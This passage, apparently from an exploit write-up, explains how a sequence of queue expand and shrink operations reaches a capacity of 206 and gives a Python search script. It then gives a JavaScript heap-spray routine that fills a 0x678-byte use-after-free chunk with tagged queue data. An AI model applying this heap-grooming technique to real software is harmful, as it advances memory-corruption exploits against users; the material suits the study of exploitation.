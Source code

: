 Since the expanding is `5/4` of the original capacity and shrinking is `5/8` of the original capacity, it seems that it is possible to let capacity to any value! great! But how to figure out the way to let `capacity=206`? You may try some advanced technique like BFS, but I don't think it is as complicated as that. What I did is simply expand and shrink randomly and see if desired `new_capacity` value is obtained. Here is the code:

```python
from random import *
x = 10 
# we start at 10, because 10 is the capacity value 
# that +1/4 operation starts to play the expanding role 
ways = []
while x < 207:
	b = random() > 0.1 # we want more expand
	ways.append(b)
	if b: # mimic expand operation
		x = int(max(x + 1, x + x / 4))
	else: # mimic shrink operation
		x = x / 2
		x += x / 4
	print (x)
	if x == 206:
		print "!!!" # notify when 206 is reached
print ways
```

Finally, my series of operation to obtain the 206 capacity is:

```
operations: 10 -> True, True, True, True, True, True, True, True, True, True, True, False, True, True, False, True, True, False, True, True, True, True, True, True,
sizes: 12 15 18 22 27 33 41 51 63 78 97 60 75 93 57 71 88 55 68 85 106 132 165 206
```

After trial, this indeed allocates the desired `0x678` size memory chunk. Here is the JS code:

```javascript
async function sprayQueue(tInsPtrSprays, val=0x41414141)
{
	let i = 0;
	for (const tInsPtr of tInsPtrSprays)
	{
		for (let i = 0; i < 97; i++)
			await tInsPtr.push(val);
		for (let i = 0; i < 49; i++)
			await tInsPtr.pop();
		// current capacity: 60, current size: 48
		for (let i = 0; i < 93 - 48; i++)
			await tInsPtr.push(val);
		for (let i = 0; i < 47; i++)
			await tInsPtr.pop();
		// current capacity: 57, current size: 46
		for (let i = 0; i < 88 - 46; i++)
			await tInsPtr.push(val);
		for (let i = 0; i < 44; i++)
			await tInsPtr.pop();
		// current capacity: 55, current size: 44
		for (let i = 0; i < 206 - 44 - 1; i++)
			await tInsPtr.push(0);
		await tInsPtr.push(i);
		// int_value_, we can use this to identify 
        // which tInsPtr's queue is occupying the UAF object
		i++;

		// console.log(await tInsPtr.getTotalSize());
	}
}
```
